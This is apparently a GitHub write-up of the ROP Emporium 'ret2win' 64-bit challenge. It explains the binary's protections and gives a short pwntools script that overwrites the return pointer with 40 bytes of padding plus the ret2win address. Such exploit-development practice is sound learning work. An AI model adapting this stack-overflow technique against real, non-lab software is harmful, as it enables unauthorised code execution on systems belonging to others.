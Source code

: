 # ret2win-64bit
this challange is the very first one in the "ROP Emporium" series. 
it's a basic return pointer overwrite to change execution flow.    
   
![Screenshot from 2020-04-02 11-19-39-edited](https://user-images.githubusercontent.com/60041914/78273124-14177280-7517-11ea-8fca-1f42421d4b38.png)

this binary has NX but no PIE or stack canary.   
inside the binary we can find a "ret2win" function.   
![Screenshot from 2020-04-02 11-22-04-edited](https://user-images.githubusercontent.com/60041914/78273542-a3bd2100-7517-11ea-8ac6-71b36de827de.png)

we can write a simple script using pwntools that overwrites the return pointer with that address.      
```python
from pwn import *

RET2WIN=0x00400811

r=process("./ret2win")
exploit=b"A"*40
exploit+=p64(RET2WIN)

r.sendline(exploit)
r.interactive()
```
![Screenshot from 2020-04-02 11-22-52-edited](https://user-images.githubusercontent.com/60041914/78273669-d49d5600-7517-11ea-8ccc-9184231a9303.png)
 
